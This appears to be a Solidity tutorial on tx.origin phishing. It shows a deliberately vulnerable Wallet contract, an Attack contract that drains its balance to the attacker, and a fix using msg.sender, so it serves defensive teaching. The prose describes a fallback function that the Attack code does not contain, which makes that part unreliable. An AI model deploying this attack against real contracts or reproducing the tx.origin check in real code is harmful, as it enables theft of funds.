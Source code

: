 ## Phishing with tx.origin attack
tx.origin is a global variable in Solidity which returns the address of the account that sent the transaction. Contracts that use the tx.origin to authorize users are vulnerable to phishing attacks.

Let’s say a call could be made to the vulnerable contract that passes the authorization check since tx.origin returns the original sender of the transaction which in this case is the authorized account.

# Let's look at the example.

contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner);

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}


I created two contracts: Wallet that stores and withdraws funds, and Attack which is a contract made by an attacker who wants to attack the first contract.

Note that the contract authorizes the transfer function using tx.origin.

Now, if the owner of the Wallet contract sends a transaction with enough gas to the Attack address, it will invoke the fallback function, which in turn calls the transfer function of the Wallet contract with the parameter attacker.

As a result, all funds from the Wallet contract will be withdrawn to the attacker's address. This is because the address that first initialized the call was the victim (i.e., the owner of the Wallet contract).

Therefore, tx.origin will be equal to the owner and the require on will pass.

# How to prevent Tx Origin attacks

The best way to prevent Tx Origin attacks is not to use the tx.origin for authentication purposes. Instead, it is advisable to use msg.sender

function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner);

  (bool sent, ) = _to.call.value(_amount)("");
  require(sent, "Failed to send Ether");
}
